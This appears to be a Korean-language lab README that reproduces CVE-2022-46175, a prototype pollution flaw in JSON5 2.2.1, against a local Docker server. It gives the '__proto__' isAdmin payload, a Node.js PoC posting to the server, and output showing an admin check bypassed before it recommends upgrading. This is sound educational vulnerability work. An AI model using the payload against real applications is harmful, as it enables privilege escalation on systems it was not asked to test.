



# CVE-2022-46175 - JSON5 Prototype Pollution

## 1. 취약점 요약

CVE-2022-46175는 JSON5 라이브러리의 `parse` 메서드에서 발생하는 Prototype Pollution 취약점이다.

취약한 JSON5 버전에서는 `JSON5.parse()`가 `__proto__` 키를 제한하지 않고 처리한다. 이에 따라 공격자가 조작된 JSON5 문자열을 전달하면 파싱 결과 객체의 prototype에 임의의 속성을 설정할 수 있다.

본 과제에서는 JSON5 2.2.1을 사용하는 취약 서버를 Docker 환경으로 구성하고, `__proto__`를 이용하여 `isAdmin` 속성을 prototype에 삽입한다.

이를 통해 객체의 own property만 검사하는 보안 로직을 우회하고 관리자 전용 동작을 실행하는 과정을 재현하였다.

---

## 2. 환경 구성

본 구현에서는 Docker Compose를 이용하여 취약 서버와 PoC 실행 환경을 각각 독립된 컨테이너로 구성하였다.

Docker Compose를 이용하여 다음과 같이 환경을 구성한다.

```bash
docker compose up -d --build
```

컨테이너의 실행 상태는 다음 명령으로 확인한다.

```bash
docker compose ps
```



취약 서버는 `127.0.0.1:3000` 포트를 통해 접근할 수 있다.

다음 명령으로 서버 정보를 확인한다.

```bash
curl http://127.0.0.1:3000/
```

실행 결과 서버에서 JSON5 2.2.1 버전을 사용하는 것을 확인할 수 있다.



---

## 3. 취약 조건

CVE-2022-46175를 재현하기 위한 주요 조건은 다음과 같다.

1. 취약한 JSON5 버전을 사용해야 한다.
2. 외부에서 전달받은 문자열을 `JSON5.parse()`로 파싱해야 한다.
3. 파싱된 객체의 own property만 검사하는 보안 로직이 존재해야 한다.
4. 이후 일반적인 JavaScript property 접근을 통해 객체의 값을 사용해야 한다.

본 과제 취약 서버에서는 다음 코드로 입력 데이터를 파싱한다.

```javascript
const props = JSON5.parse(body);
```

또한 `isAdmin`, `isMod`와 같은 민감한 속성이 입력 객체에 직접 포함되었는지 검사한다.

```javascript
function hasSensitiveOwnKey(obj) {
    return Object.keys(obj).some((key) =>
        SENSITIVE_KEYS.includes(key)
    );
}
```

`Object.keys()`는 객체 자신의 enumerable property만 반환한다.

이때 해당 객체의 own property에는 `isAdmin`이 존재한다.

```text
Object.keys(props)
→ ["isAdmin"]
```

따라서 다음과 같이 `isAdmin` 속성을 직접 전달하면 보안 검사에 의해 차단된다.

```json
{
    "isAdmin": true
}
```

그러나 취약한 JSON5 2.2.1에서는 다음과 같은 입력을 전달할 수 있다.

```json
{
    "__proto__": {
        "isAdmin": true
    }
}
```

`JSON5.parse()`가 `__proto__` 키를 처리하면서 `isAdmin` 값이 파싱 결과 객체의 prototype에 설정된다.

이 경우 `isAdmin`은 객체 자신의 속성이 아니므로 다음 검사에서 발견되지 않는다.

```text
Object.keys(props)
→ []
```

하지만 서버에서 다음과 같이 일반적인 property 접근을 수행하면 prototype chain을 통해 `isAdmin` 값을 참조할 수 있다.

```javascript
if (props.isAdmin === true)
```

결과적으로 공격자는 own property 기반 보안 검사를 우회하고 관리자 권한으로 처리되는 동작을 실행할 수 있다.

---

## 4. 재현 절차

### 4.1 취약 환경 실행

CVE 디렉터리에서 다음 명령을 실행한다.

```bash
docker compose up -d --build
```

해당 명령을 통해 취약 서버 이미지와 PoC 실행 이미지를 빌드하고 컨테이너를 실행한다.

### 4.2 PoC 실행

다음 명령으로 PoC를 실행한다.

```bash
docker compose exec poc node poc.js
```

PoC는 두 종류의 payload를 서버에 전달한다.

첫 번째 payload는 `isAdmin` 속성을 직접 전달한다.

```json
{
    "isAdmin": true
}
```

두 번째 payload는 `__proto__`를 이용하여 `isAdmin` 속성을 prototype에 설정한다.

```json
{
    "__proto__": {
        "isAdmin": true
    }
}
```

두 요청의 서버 응답을 비교하여 취약점 발생 여부를 확인한다.

---

## 5. PoC 코드

PoC는 `poc.js` 파일에 구현되어 있다.

테스트에 사용하는 payload는 다음과 같다.

```javascript
const testCases = [
    {
        name: 'Direct admin property',
        payload: '{"isAdmin": true}'
    },
    {
        name: 'CVE-2022-46175 prototype pollution',
        payload: '{"__proto__": {"isAdmin": true}}'
    }
];
```

PoC는 Node.js의 HTTP 모듈을 이용하여 취약 서버의 `/action` 엔드포인트에 POST 요청을 전달한다.

```javascript
const req = http.request(
    {
        hostname: TARGET_HOST,
        port: TARGET_PORT,
        path: '/action',
        method: 'POST',
        headers: {
            'Content-Type': 'application/json5',
            'Content-Length': Buffer.byteLength(payload)
        }
    },
    (res) => {
        // 서버 응답 처리
    }
);
```
---

## 6. 실행 결과

### 6.1 일반적인 관리자 속성 삽입

먼저 다음 payload를 전달한다.

```json
{
    "isAdmin": true
}
```

`isAdmin`이 객체의 own property로 존재하기 때문에 서버의 민감 속성 검사에서 발견된다.

실행 결과 HTTP 403 응답이 반환되며 요청이 차단된다.

```text
=== Direct admin property ===
[Payload] {"isAdmin": true}
[HTTP 403]
```

### 6.2 CVE-2022-46175 재현

다음으로 `__proto__`를 이용한 payload를 전달한다.

```json
{
    "__proto__": {
        "isAdmin": true
    }
}
```

취약한 JSON5 2.2.1에서 해당 문자열을 파싱하면 `isAdmin` 속성이 파싱 결과 객체의 prototype에 설정된다.

따라서 `Object.keys()`를 이용한 own property 검사에서는 `isAdmin` 속성이 발견되지 않는다.

그러나 `props.isAdmin` 접근 시 prototype chain을 통해 `true` 값이 반환된다.

그 결과 관리자 전용 동작이 실행된다.

```text
=== CVE-2022-46175 prototype pollution ===
[Payload] {"__proto__": {"isAdmin": true}}
[HTTP 200]
```

그리고 서버 응답을 통해 관리자 동작 실행 및 보호된 데이터 반환을 확인할 수 있다.

```text
"result": "admin action executed"
"secret": "FLAG{CVE-2022-46175_PROTOTYPE_POLLUTION_SUCCESS}"
"ownKeys": []
"inheritedIsAdmin": true
```



일반적인 `isAdmin` 속성 삽입은 차단되었지만, `__proto__`를 이용한 payload는 own property 검사를 우회하였다.

이를 통해 CVE-2022-46175의 Prototype Pollution 취약점을 이용하여 보안 검사 및 권한 확인 로직을 우회할 수 있음을 확인하였다.

---

## 7. 대응 방안

### 7.1 JSON5 업데이트

가장 기본적이고 근본적인 대응 방안은 취약한 JSON5 버전을 패치된 버전으로 업데이트하는 것이다.

JSON5 2.x 환경에서는 2.2.2 이상의 버전을 사용한다.

```json
{
    "dependencies": {
        "json5": "2.2.2"
    }
}
```

---

## 8. 환경 종료

실습 환경 종료 및 생성된 컨테이너와 볼륨 삭제는 다음 명령으로 수행한다.

```bash
docker compose down -v --remove-orphans
```
